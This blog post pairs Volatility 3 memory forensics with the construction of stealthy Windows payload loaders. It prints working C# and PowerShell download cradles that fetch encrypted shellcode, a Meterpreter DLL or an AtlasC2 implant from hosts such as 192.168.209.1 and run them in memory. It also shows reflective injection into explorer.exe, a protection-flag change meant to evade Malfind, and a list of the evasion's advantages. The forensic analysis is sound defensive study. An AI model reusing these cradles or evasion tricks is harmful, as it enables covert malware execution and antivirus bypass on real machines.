





There is a common method to execute a malicious payload in a download cradle to bypass the antivirus’ detection. Here I’m going to show you how to use volatility to perform memory forensics and extract malicious payloads from memory.
Prerequisite
Memory Forensics with Shellcode Cradle At the first, use the payload generator to generate a shellcode and encrypt it with AES. the encrypted payload is stored in “payload.jpeg” which will be rendered with the HTTP server, and put the IV and key into the Cradle code.
My Custom Cradle 1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 51 52 53 54 55 56 57 58 59 60 61 using System;using System.IO;using System.Net;using System.Runtime.InteropServices;using System.Security.Cryptography;using System.Text;namespace Cradle1 { internal static class Program { [DllImport("kernel32.dll" , SetLastError = true, ExactSpelling = true) ] static extern IntPtr VirtualAlloc (IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect ) [DllImport("kernel32.dll" ) ] static extern IntPtr CreateThread (IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId ) [DllImport("kernel32.dll" ) ] static extern UInt32 WaitForSingleObject (IntPtr hHandle, UInt32 dwMilliseconds ) static string DecryptStringFromBytes_Aes (byte [] cipherText, byte [] Key, byte [] IV { if (cipherText == null || cipherText.Length <= 0 ) throw new ArgumentNullException("cipherText" ); if (Key == null || Key.Length <= 0 ) throw new ArgumentNullException("Key" ); if (IV == null || IV.Length <= 0 ) throw new ArgumentNullException("IV" ); string plaintext = null ; using (Aes aesAlg = Aes.Create()) { aesAlg.Key = Key; aesAlg.IV = IV; ICryptoTransform decryptor = aesAlg.CreateDecryptor(aesAlg.Key, aesAlg.IV); using (MemoryStream msDecrypt = new MemoryStream(cipherText)) { using (CryptoStream csDecrypt = new CryptoStream(msDecrypt, decryptor, CryptoStreamMode.Read)) { using (StreamReader srDecrypt = new StreamReader(csDecrypt)) { plaintext = srDecrypt.ReadToEnd(); } } } } return plaintext; } [STAThread ] static void Main ( { var client = new WebClient(); var encrypted = client.DownloadString("http://192.168.2.2:1888/payload.jpeg" ); var byteBuf = Convert.FromBase64String(encrypted); var key = Convert.FromBase64String("eYkR/wkF3FKtODdZk66SgW6lDLw4iIYrHcwE6Ei2vxk=" ); var IV = Convert.FromBase64String("8T/TtAHKPkPe7UIC+PsBGg==" ); var res = Encoding.GetEncoding("ISO-8859-1" ).GetBytes(DecryptStringFromBytes_Aes(byteBuf, key, IV)); IntPtr addr = VirtualAlloc(IntPtr.Zero, (uint )res.Length, 0x3000 , 0x40 ); Marshal.Copy(res, 0 , addr, res.Length); IntPtr hThread = CreateThread(IntPtr.Zero, 0 , addr, IntPtr.Zero, 0 , IntPtr.Zero); WaitForSingleObject(hThread, 0xFFFFFFFF ); } } }
Forensics with Volatility 3 After using DumpIt.exe or anything you like to exact the full memory dump, we can use volatility to perform forensics.
Validate Image 1 python volatility3/vol.py -f memory_dump.raw windows.info
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 Volatility 3 Framework 2.4.2 Progress: 100.00 PDB scanning finished Variable Value Kernel Base 0xf8061cc17000 DTB 0x1ad000 ... Is64Bit True IsPAE False layer_name 0 WindowsIntel32e memory_layer 1 FileLayer KdVersionBlock 0xf8061d826388 Major/Minor 15.19041 MachineType 34404 KeNumberProcessors 2 SystemTime 2023-03-09 05:23:04 NtSystemRoot C:\Windows NtProductType NtProductWinNt NtMajorVersion 10 NtMinorVersion 0 PE MajorOperatingSystemVersion 10 PE MinorOperatingSystemVersion 0 PE Machine 34404 ...
It looks volatility works well with this image
Check Process Tree 1 python volatility3/vol.py -f memory_dump.raw windows.pstree
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 PID PPID ImageFileName Offset(V) Threads Handles SessionId Wow64 CreateTime ExitTime 4 0 System 0xd30ee5482080 139 - N/A False 2023-03-09 04:44:09.000000 N/A * 312 4 smss.exe 0xd30ee81ea040 2 - N/A False 2023-03-09 04:44:09.000000 N/A * 1576 4 MemCompression 0xd30ee9eb4040 26 - N/A False 2023-03-09 04:44:12.000000 N/A * 92 4 Registry 0xd30ee54e9080 4 - N/A False 2023-03-09 04:44:04.000000 N/A 520 500 csrss.exe 0xd30ee893e080 11 - 1 False 2023-03-09 04:44:10.000000 N/A 608 500 winlogon.exe 0xd30ee89c8080 3 - 1 False 2023-03-09 04:44:10.000000 N/A * 816 608 fontdrvhost.ex 0xd30ee9a59080 5 - 1 False 2023-03-09 04:44:11.000000 N/A * 992 608 LogonUI.exe 0xd30ee9d37080 10 - 1 False 2023-03-09 04:44:11.000000 N/A * 1000 608 dwm.exe 0xd30ee9d39080 13 - 1 False 2023-03-09 04:44:11.000000 N/A 4076 4068 csrss.exe 0xd30eeab87140 12 - 2 False 2023-03-09 04:46:59.000000 N/A 1256 4068 winlogon.exe 0xd30eea6c2080 6 - 2 False 2023-03-09 04:46:59.000000 N/A * 2800 1256 dwm.exe 0xd30eea704240 15 - 2 False 2023-03-09 04:47:00.000000 N/A * 4604 1256 userinit.exe 0xd30eebadf080 0 - 2 False 2023-03-09 04:47:02.000000 2023-03-09 04:47:38.000000 ** 4620 4604 explorer.exe 0xd30eebaf8080 75 - 2 False 2023-03-09 04:47:02.000000 N/A *** 5508 4620 a.exe 0xd30ee8494080 14 - 2 False 2023-03-09 05:22:18.000000 N/A *** 6884 4620 OneDrive.exe 0xd30eebcb0080 19 - 2 True 2023-03-09 04:47:29.000000 N/A *** 4776 4620 powershell.exe 0xd30eec77a080 13 - 2 False 2023-03-09 05:04:21.000000 N/A **** 3668 4776 conhost.exe 0xd30eebbbd080 4 - 2 False 2023-03-09 05:04:21.000000 N/A *** 620 4620 msedge.exe 0xd30eec1c9080 28 - 2 False 2023-03-09 04:51:24.000000 N/A **** 4544 620 msedge.exe 0xd30eec8bd340 7 - 2 False 2023-03-09 04:51:24.000000 N/A **** 6816 620 msedge.exe 0xd30eebbfa080 14 - 2 False 2023-03-09 04:51:25.000000 N/A **** 4480 620 msedge.exe 0xd30eec6aa080 13 - 2 False 2023-03-09 04:53:04.000000 N/A **** 4992 620 msedge.exe 0xd30eec7df0c0 12 - 2 False 2023-03-09 05:07:46.000000 N/A **** 3564 620 msedge.exe 0xd30eec086080 13 - 2 False 2023-03-09 05:00:49.000000 N/A **** 6840 620 msedge.exe 0xd30eebf52080 11 - 2 False 2023-03-09 04:51:25.000000 N/A **** 1788 620 msedge.exe 0xd30eebcca300 8 - 2 False 2023-03-09 04:51:25.000000 N/A *** 5172 4620 DumpIt.exe 0xd30eeb9e6080 3 - 2 True 2023-03-09 05:22:56.000000 N/A **** 5432 5172 conhost.exe 0xd30eeb9110c0 6 - 2 False 2023-03-09 05:22:56.000000 N/A *** 6392 4620 vmtoolsd.exe 0xd30eec0b22c0 6 - 2 False 2023-03-09 04:47:27.000000 N/A * 2572 1256 fontdrvhost.ex 0xd30eeab8e140 5 - 2 False 2023-03-09 04:47:00.000000 N/A
We can find our suspicious process is a child process of “explorer.exe” and the PID of it is 5508. There will be a lot of approach to determine whether a process is suspicious like EDR or dubious inheritance.
Locate Injected Code Check injected with following command
1 python volatility3/vol.py -f memory_dump.raw windows.malfind.Malfind --pid 5508
According to the result, we can see it found several injected code because they have PAGE_EXECUTE_READWRITE protection
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 51 52 53 54 55 56 57 58 59 60 61 62 63 64 65 66 PID Process Start VPN End VPN Tag Protection CommitCharge PrivateMemory File output Hexdump Disasm 5508 a.exe 0x1f4510e0000 0x1f4510effff VadS PAGE_EXECUTE_READWRITE 2 1 Disabled 00 00 00 00 00 00 00 00 ........ ef da 1c 5e 56 c0 00 01 ...^V... ee ff ee ff 02 00 00 00 ........ ... 0x1f4510e0000: add byte ptr [rax], al 0x1f4510e0002: add byte ptr [rax], al 0x1f4510e0004: add byte ptr [rax], al 0x1f4510e0006: add byte ptr [rax], al 0x1f4510e0008: out dx, eax ... 5508 a.exe 0x1f450ed0000 0x1f450ee0fff VadS PAGE_EXECUTE_READWRITE 17 1 Disabled 56 48 89 e6 48 83 e4 f0 VH..H... 48 83 ec 20 e8 0f 00 00 H....... 00 48 89 f4 5e c3 66 2e .H..^.f. ... 0x1f450ed0000: push rsi 0x1f450ed0001: mov rsi, rsp 0x1f450ed0004: and rsp, 0xfffffffffffffff0 0x1f450ed0008: sub rsp, 0x20 0x1f450ed000c: call 0x1f450ed0020 0x1f450ed0011: mov rsp, rsi 0x1f450ed0014: pop rsi ... 5508 a.exe 0x1f451030000 0x1f45103ffff VadS PAGE_EXECUTE_READWRITE 16 1 Disabled 4c 8b d1 b8 02 00 00 00 L....... 49 bb f2 dd 3c f0 fb 7f I...<... 00 00 41 ff e3 c3 00 00 ..A..... ... 0x1f451030000: mov r10, rcx 0x1f451030003: mov eax, 2 0x1f451030008: movabs r11, 0x7ffbf03cddf2 0x1f451030012: jmp r11 0x1f451030015: ret 0x1f451030016: add byte ptr [rax], al 0x1f451030018: add byte ptr [rax], al 0x1f45103001a: add byte ptr [rax], al ... 5508 a.exe 0x1f451080000 0x1f45108ffff VadS PAGE_EXECUTE_READWRITE 2 1 Disabled 00 00 00 00 00 00 00 00 ........ 11 6d d2 d9 da 56 00 01 .m...V.. ee ff ee ff 02 00 00 00 ........ ... 0x1f451080000: add byte ptr [rax], al 0x1f451080002: add byte ptr [rax], al 0x1f451080004: add byte ptr [rax], al 0x1f451080006: add byte ptr [rax], al ... 5508 a.exe 0x7ff4a8c00000 0x7ff4a8c9ffff VadS PAGE_EXECUTE_READWRITE 2 1 Disabled d8 ff ff ff ff ff ff ff ........ 08 00 00 00 00 00 00 00 ........ ... 5508 a.exe 0x7ff4a8bf0000 0x7ff4a8bfffff VadS PAGE_EXECUTE_READWRITE 1 1 Disabled 00 00 00 00 00 00 00 00 ........ 78 0d 00 00 00 00 00 00 x....... ... 0x7ff4a8bf0000: add byte ptr [rax], al 0x7ff4a8bf0002: add byte ptr [rax], al 0x7ff4a8bf0004: add byte ptr [rax], al 0x7ff4a8bf0006: add byte ptr [rax], al 0x7ff4a8bf0008: js 0x7ff4a8bf0017 0x7ff4a8bf000a: add byte ptr [rax], al 0x7ff4a8bf000c: add byte ptr [rax], al ...
Obviously, our malicious code has been located, it’s easy to be extracted with option “–dump”.
Try to bypass the Malfind However, can we bypass this check? let’s check the source code of volatility, here we can find it.
1 2 3 4 5 write_exec = "EXECUTE" in protection_string and "WRITE" in protection_string if not write_exec: continue
Obviously, if we change the protection to PAGE_EXECUTE_READ after writing, we can bypass this detection. Just add this after copy
1 2 3 4 5 IntPtr addr = VirtualAlloc(IntPtr.Zero, (uint )res.Length, 0x3000 , 0x04 ); Marshal.Copy(res, 0 , addr, res.Length); uint old;VirtualProtect(addr, (uint )res.Length, 0x20 , out old); IntPtr hThread = CreateThread(IntPtr.Zero, 0 , addr, IntPtr.Zero, 0 , IntPtr.Zero);
However, while using malfind, it still can locate injected code and marked as PAGE_EXECUTE_READWRITE. Why? I think that’s caused by the Virtual Protect, it just modified the permission of virtual memory page, but the volatility could check the actual physical memory page. (I haven’t confirmed this suppose).
Memory Forensics with Reflectively Injected Assembly As we can see, Malfind could locate the injected code because these code locate at writable and executable memory page. If we load an unmanaged assembly reflectively and hide it out of our cradle process, it will be much harder to find it.
Use Invoke-ReflectivePEInjection.ps1 to inject assembly In this section we will use Invoke-ReflectoivePEInjection.ps1 to inject an assembly into an existed process reflectively, but because of the multiple instances of GetProcAddress in UnsafeNativeMethods, we have to modify it so that it could works in latest Windows 10. The modified one I used is here: https://github.com/4xpl0r3r/PowerSploit/blob/master/CodeExecution/Invoke-ReflectivePEInjection.ps1
1 2 3 4 5 6 wget "http://192.168.209.1:5555/Invoke-ReflectivePEInjection.ps1" -o Invoke-ReflectivePEInjection .ps1Import-Module "C:\Users\Admin\Desktop\Invoke-ReflectivePEInjection.ps1" $procid = (Get-Process -Name explorer).Id$bytes = (New-Object System.Net.WebClient).DownloadData('http://192.168.209.1:5555/met.dll' )Invoke-ReflectivePEInjection -PEBytes $bytes -ProcId $procid echo $procid
I tried Havoc demon with dll format here, but it caused explorer.exe crashed, so I used Metasploit payload here and it works well

The exception VoidFunc not found doesn’t affect our payload’s functionality, because our payload executed during loading.
Check the pid, we found the pid of meterpreter is different from the pid of the explorer
Forensics with Volatility 3 Check Process Tree 1 python ~/Tool\ Set.localized/Forensics/volatility3/vol.py -f memdump1.raw windows.pstree
1 2 6072 5992 explorer.exe 0xdd83351cb340 53 - 2 False 2023-03-13 05:11:55.000000 N/A * 3952 6072 rundll32.exe 0xdd8332854080 1 - 2 False 2023-03-13 05:16:26.000000 N/A
Because our payload is in the DllEntryPoint Function, so it actually runs in rundll32.exe process, which is very suspicious and we can easily dump it from this rundll32.exe process.
Hide deeper by fully leveraging Invoke-ReflectivePEInjection.ps1 By reviewing Invoke-ReflectivePEInjection.ps1, the exception we meet is shown as below and we can found that we can create a function called VoidFunc and it will be ran as a new thread in the remote process. Cause it will be a new thread, not a process, it could be more unsuspicious, but we have to modify the generating code to make it store the malicious payload in VoidFunc part, rather than DllEntryPoint Part.

Memory Forensics with .Net Framework Dynamically Loaded Managed Assembly Recently, I analyzed a cradle developed by the Mallox ransomware organization. The cradle is developed with C# and it uses AppDomain.Load to load an assembly into managed memory, which is very stealthy.
Prepare AtlasC2 Here I used AtlasC2 Implant as below
Program.cs function Main
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 static void Main (string [] args Process.GetCurrentProcess().PriorityClass = ProcessPriorityClass.Idle; GenImplantData(); ImplantCommandsInit(); _comms = new HTTPComms("192.168.209.1" , 8089 ); _comms.ImplantInit(_implantData); _comms.Start(); _cancelToken = new CancellationTokenSource(); while (!_cancelToken.IsCancellationRequested) { Thread.Sleep(1000 ); if (_comms.DataRecv(out var tasks)) { HandleTasks(tasks); } } }
Utils/ImplantDataUtils.cs functionGetHostIP
The original code may cause exception and end the program when the Internet is not accessible.
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 public static string GetHostIP ({ using (Socket socket = new Socket(AddressFamily.InterNetwork, SocketType.Dgram, 0 )) { try { socket.Connect("8.8.8.8" , 65530 ); IPEndPoint endPoint = socket.LocalEndPoint as IPEndPoint; return (endPoint.Address.ToString()); } catch(System.Net.Sockets.SocketException e) { return ("Internal Network" ); } } }
After compiling, we got the Implant ready, the Team server running and listening.
Custom Managed Cradle
I recommend you to compile the cradle with the same target .net framework with Implant
1 2 3 4 5 6 7 8 9 10 static void Main ({ var client = new WebClient(); var assemblyData = client.DownloadData("http://192.168.209.1:5555/Implant.exe" ); var ass = AppDomain.CurrentDomain.Load(assemblyData); Type entryType = ass.GetType("Implant.Program" ); MethodInfo method = entryType.GetMethod("Main" , System.Reflection.BindingFlags.Static | System.Reflection.BindingFlags.NonPublic); var args= new object [] { new string [] { } }; method.Invoke(null , args); }
Forensics with Volatility 3 Check Process Tree 1 python volatility3/vol.py -f memdump2.raw windows.malfind.Malfind --pid 5572

As we can see, there isn’t any sub process for ManagedCradle.exe
Check Malfind 1 python volatility3/vol.py -f memdump2.raw windows.pstree

Found 2 pieces suspicious, let’s try to remove our cradle code and run again.
1 2 3 var client = new WebClient();var assemblyData = client.DownloadData("http://192.168.209.1:5555/Implant.exe" );Thread.Sleep(10000 );
It’s similar, so we can treat it as normal.
Check Dll List 1 python volatility3/vol.py -f memdump2.raw windows.dlllist.DllList --pid 5572
Generated a large list, it’s hard to confirm whether a dll is suspicious. Maybe analyze them one by one can help us found the malicious one, but it’s too hard.

What is the best way to locate the threats hidden in managed memory? C# and .Net Framework is similar to Java, so the best way to track loaded assembly is using the interfaces that offered by .Net Framework itself, like I analyzed in https://cn.4xpl0r3r.com/%E6%8A%80%E6%9C%AF%E5%BD%92%E7%BA%B3/JavaWeb-%E5%86%85%E5%AD%98%E9%A9%AC%E6%8A%80%E6%9C%AF%E5%BD%92%E7%BA%B3/
Load Managed Assembly in PowerShell According to the analyzing above, we know that loading the malicious assembly into managed memory is a good way to hide. In this section, I will use PowerShell to replace the C# cradle so that there will be no file in the disk.
My PowerShell Cradle 1 2 3 4 5 6 $assemblyData = (New-Object System.Net.WebClient).DownloadData('http://192.168.209.1:5555/Implant.exe' )$ass = [AppDomain ]::CurrentDomain.Load($assemblyData );$entryType = $ass .GetType("Implant.Program" );$method = $entryType .GetMethod("Main" ,[System.Reflection.BindingFlags ]::Static -bor [System.Reflection.BindingFlags ]::NonPublic);$args = @ (,[System.String []]@ ())$method .Invoke($null ,$args )
Pros and Cons Running this, our malicious implant can hide in the AppDomain of current PowerShell process, having several pros listed below
No suspicious memory section
No suspicious native DLL
No file in disk
Also, cons listed below:
May be influenced by AMSI
PowerShell command history could be reviewed in Windows Event Log